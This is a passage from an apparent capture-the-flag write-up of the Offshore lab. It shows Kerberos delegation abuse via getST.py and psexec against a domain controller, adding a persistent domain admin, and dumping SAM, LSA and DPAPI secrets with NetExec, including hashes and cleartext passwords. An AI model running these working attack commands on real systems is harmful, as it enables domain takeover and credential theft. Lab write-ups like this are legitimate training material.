

`Client_adm` is a high level target as it is part of the domain admins.



I can also see a RBCD from `MS02` to the `DC04`, which means if we can get admin of MS02 then we have a clear path to the `DC04` as well.



I also noticed another strange thing about a GPO named "IPPSEC was here": **\\\\CLIENT.OFFSHORE.COM\\SYSVOL\\CLIENT.OFFSHORE.COM\\POLICIES\\{37F7F153-93EE-4703-98A2-95C889D11918}**



This reminds me of a possible flag?



And seems like we have another flag?

```
# tree
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/USER
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/GPT.INI
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/User
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/USER
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/GPT.INI
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/User
/CLIENT.OFFSHORE.COM/Policies/{ABBDB649-E74D-4DDB-A6B3-9C1055BE903C}/GPT.INI
/CLIENT.OFFSHORE.COM/Policies/{ABBDB649-E74D-4DDB-A6B3-9C1055BE903C}/Machine
/CLIENT.OFFSHORE.COM/Policies/{ABBDB649-E74D-4DDB-A6B3-9C1055BE903C}/User
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/comment.cmtx
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Scripts
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Applications
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Microsoft
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Preferences
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Scripts
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/comment.cmtx
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Registry.pol
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Microsoft
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Registry.pol
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Scripts
/CLIENT.OFFSHORE.COM/Policies/{ABBDB649-E74D-4DDB-A6B3-9C1055BE903C}/Machine/flag.txt
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Scripts/Shutdown
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Scripts/Startup
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Microsoft/Windows NT
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Preferences/Registry
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Scripts/Shutdown
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Scripts/Startup
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Microsoft/Windows NT
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Scripts/Shutdown
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Scripts/Startup
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Microsoft/Windows NT/SecEdit
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Preferences/Registry/Registry.xml
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Microsoft/Windows NT/SecEdit
/CLIENT.OFFSHORE.COM/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
/CLIENT.OFFSHORE.COM/Policies/{37F7F153-93EE-4703-98A2-95C889D11918}/Machine/Microsoft/Windows NT/SecEdit/GptTmpl.inf
/CLIENT.OFFSHORE.COM/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
/CLIENT.OFFSHORE.COM/Policies/{70A57E17-F818-446E-A519-9BA466857BF4}/Machine/Microsoft/Windows NT/SecEdit/GptTmpl.inf
Finished - 55 files and folders
```

And we have another flag:

```
# cd {ABBDB649-E74D-4DDB-A6B3-9C1055BE903C}
# ls
drw-rw-rw-          0  Thu Jun 28 23:51:18 2018 .
drw-rw-rw-          0  Thu Jun 28 23:51:18 2018 ..
-rw-rw-rw-         59  Thu Jun 28 23:51:18 2018 GPT.INI
drw-rw-rw-          0  Thu Jun 28 23:53:44 2018 Machine
drw-rw-rw-          0  Thu Jun 28 23:51:18 2018 User
# cd Machine
# l
*** Unknown syntax: l
# ls
drw-rw-rw-          0  Thu Jun 28 23:53:44 2018 .
drw-rw-rw-          0  Thu Jun 28 23:53:44 2018 ..
-rw-rw-rw-         27  Thu Jun 28 23:54:57 2018 flag.txt
# cat flag.txt
OFFSHORE{d0nt_overl00k_gp0}
#
```

But lastly let's check what can that strange SVC account do? Fortunately i don't see that much at this point so I will move back to `MS04`  now.

&nbsp;

# Getting the DC

Now since the "Allowed to Act" attribute is already set, and we have a valid SPN(MS02 istself) we can perform a attack directly from windows.



And now we can ask a TGS directly from Linux with the Machine password hash got via Netexec LSASS.exe secretsdump that will be used to do an impersonation on the DC.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# getST.py -spn 'cifs/DC04.CLIENT.OFFSHORE.COM' -impersonate Administrator -hashes :dc7a49c0c36399ae87f3de623ebab985 'CLIENT.OFFSHORE.COM/MS02$'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

We can check the injected ticket in the session?



And now moment of truth:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# impacket-psexec CLIENT.OFFSHORE.COM/Administrator@DC04.CLIENT.OFFSHORE.COM -k -no-pass 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on DC04.CLIENT.OFFSHORE.COM.....
[*] Found writable share ADMIN$
[*] Uploading file QUonFDmp.exe
[*] Opening SVCManager on DC04.CLIENT.OFFSHORE.COM.....
[*] Creating service wZKb on DC04.CLIENT.OFFSHORE.COM.....
[*] Starting service wZKb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
DC04

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

I will immediately add another user to the domain admins for persistence:



And start by dumping the sam:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# NetExec smb DC04.CLIENT.OFFSHORE.COM -u yovecio -p 'Coglione1!' --sam
SMB         172.16.4.5      445    DC04             [*] Windows Server 2016 Standard 14393 x64 (name:DC04) (domain:CLIENT.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.4.5      445    DC04             [+] CLIENT.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.4.5      445    DC04             [*] Dumping SAM hashes
SMB         172.16.4.5      445    DC04             Administrator:500:aad3b435b51404eeaad3b435b51404ee:67e1046be5e785dd9773fb6bbeaad49c:::
SMB         172.16.4.5      445    DC04             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.4.5      445    DC04             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.4.5      445    DC04             [+] Added 3 SAM hashes to the database
```

next goes for the LSASS.exe secrets:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# NetExec smb DC04.CLIENT.OFFSHORE.COM -u yovecio -p 'Coglione1!' --lsa
SMB         172.16.4.5      445    DC04             [*] Windows Server 2016 Standard 14393 x64 (name:DC04) (domain:CLIENT.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.4.5      445    DC04             [+] CLIENT.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.4.5      445    DC04             [+] Dumping LSA secrets
SMB         172.16.4.5      445    DC04             CLIENT\DC04$:aes256-cts-hmac-sha1-96:e81f4f470eb44a75415913c81f11794cadb9a50959221156e82ee70cc3b11fa8
SMB         172.16.4.5      445    DC04             CLIENT\DC04$:aes128-cts-hmac-sha1-96:e292256d519c2211e4ec27ef8b3cda4a
SMB         172.16.4.5      445    DC04             CLIENT\DC04$:des-cbc-md5:5bfe6d73b6a113bc
SMB         172.16.4.5      445    DC04             CLIENT\DC04$:plain_password_hex:3c48a8b0a54a4ad8d59e169c79e0b2151cb39aca949970c70fdd2e980193bbe5d4c9ac4d4865ae955aea5a012e9bf2dfd6cfa1f21ee4cf2a3e4973c74f85e2dec8a52b314a60153571debfea81c7226fd3ac823863c6d596f92f46e55bc9b9d49c1eb65f2ac6155feb0a551a7bd5417716ee8e157c19c699ef236ca1788f379808633a8f598ac6eca59bd5e547aae4f95d404effce7bde773ce0bc6e1748f5eac501a32ae08bee4937011c7f07608267bf79b098c53986420ed921544a3516ade07a046e3aa23d742a1beb220c4eb6e2d13d0ca520d3da76ddaaae9e1986d75f661a805f4f5e15e8128abff42fb50aaf
SMB         172.16.4.5      445    DC04             CLIENT\DC04$:aad3b435b51404eeaad3b435b51404ee:10868ab257bff3c2c07f46912d1343cb:::
SMB         172.16.4.5      445    DC04             (Unknown User):Nevertrustthebankers!
SMB         172.16.4.5      445    DC04             dpapi_machinekey:0x8333ec913aedc47138003648ad58946542795faa
dpapi_userkey:0x6648259ca133f311dcd38a6bba489e27f54ca6d6
SMB         172.16.4.5      445    DC04             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         172.16.4.5      445    DC04             [+] Dumped 8 LSA secrets to /root/.nxc/logs/DC04_172.16.4.5_2024-07-05_125707.secrets and /root/.nxc/logs/DC04_172.16.4.5_2024-07-05_125707.cached
```

We have a cleartext password but we don't known the user? Unfortunately none of them worked?

# 

Now I will do same but this time for DPAPI secrets:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# NetExec smb DC04.CLIENT.OFFSHORE.COM -u yovecio -p 'Coglione1!' --dpapi     
SMB         172.16.4.5      445    DC04             [*] Windows Server 2016 Standard 14393 x64 (name:DC04) (domain:CLIENT.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.4.5      445    DC04             [+] CLIENT.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.4.5      445    DC04             [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.4.5      445    DC04             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.4.5      445    DC04             [+] Got 32 decrypted masterkeys. Looting secrets...
SMB         172.16.4.5      445    DC04             [offshore_adm][CREDENTIAL] LegacyGeneric:target=ms02.client.offshore.com - CLIENT\offshore_adm:Nevertrustthebankers!
```

Seems like an old ass password? Bot I will login into machine and get another flag,

&nbsp;

# Post Exploitation

We can start by grabbing another flag:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/28/2018   6:22 PM             37 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
OFFSHORE{c@r3ful_who_y0u_d3legate_t0}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

I next decided to check the DNS and I don't see other domains which might mean we can stop here.



Next I will check other machines on the subnet and I see some more?

```
PS C:\Temp> 1..254 | ForEach-Object { $ip = "172.16.4.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { $ip
} }
172.16.4.5
172.16.4.31
172.16.4.120
PS C:\Temp>
```

I will move to the last machine.

&nbsp;

&nbsp;

&nbsp;

&nbsp;